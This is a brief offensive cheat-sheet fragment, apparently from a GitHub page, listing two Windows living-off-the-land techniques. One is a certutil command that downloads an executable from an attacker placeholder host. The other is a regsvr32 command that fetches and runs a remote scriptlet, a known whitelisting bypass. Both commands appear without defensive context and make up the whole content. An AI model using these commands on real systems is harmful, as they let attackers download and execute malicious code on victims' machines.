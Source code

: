 ## Download with certutil
`certutil -URLcache -split -f http://<ATTACKER_IP>/file.exe c:\<path>\<to>\<file.exe>`
## Execute with regsvr32
`regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll`
